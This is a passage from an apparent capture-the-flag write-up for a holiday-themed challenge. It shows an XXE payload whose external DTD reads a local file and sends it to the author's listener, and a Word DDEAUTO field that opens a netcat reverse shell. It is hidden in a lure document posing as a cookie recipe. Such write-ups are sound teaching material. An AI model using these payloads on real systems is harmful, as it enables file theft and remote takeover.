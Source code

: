 We create an XML file with the contents:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "https://gist.githubusercontent.com/Ern-st/o7483growuh2378rhiuwh823/raw/98327yrhg3094gh89833hf803/gistfile1.txt">
    %extentity;
    %inception;
    %sendit;
    ]
<
```
Then at the URL https://gist.githubusercontent.com/Ern-st/o7483growuh2378rhiuwh823/raw/98327yrhg3094gh89833hf803/gistfile1.txt we placed a file with the contents:
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://<my ip>:1337/?%stolendata;'>">
```
Then we run `nc -l -p 1337` on our localmachine that is NATTED/portforwarded from the external IP on port 1337 to the internal IP on port 1337. Next we upload the XML file to the EAAS server and check our `nc command for successful exploit execution.
```console
root@kali:~# nc -l -p 1337
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: <my ip>:1337
Connection: Keep-Alive
```
The greatbook6.pdf could then be retrieved from [http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf](http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf)

## 7. GingerBread Cookie Recipe 🍪
We need to gain access to the SCADA server. The hints seem to indicate that the admin Albaster has a nasty habit of using the server for his own affairs. Among other things he's installed the Microsoft Office suite on the server! 

While trawling through the email in Challenge [**4.**](#4---) there was a lot of chatter (no really an insane amount!) from Alabaster to everyone in the company about a "Gingerbread Cookie Recipe" that he was desperate to get his hands on… So desperate that he even mentions that he would gladly open any `.docx` file and press OK to any prompts that would pop up! You get where this is going right? The #hottopic of 🍁 Fall 2017: Microsoft Office DDE Exploits, aka. "It's a feature! not a bug!".

We boot up a Windows machine and open Word, click "insert" -> "field". In the empty field we enter `{DDEAUTO c:\\windows\\system32\\cmd.exe "/k nc.exe -e cmd.exe <my ip> 1337"}` then we save the document as `gingerbread cookie recipe.docx"` reading the emails it's clear the Jessica Claus was the one who baked the cookies, so it stands to reason that she would be the one sending the recipe to Alabaster. So let's do that!
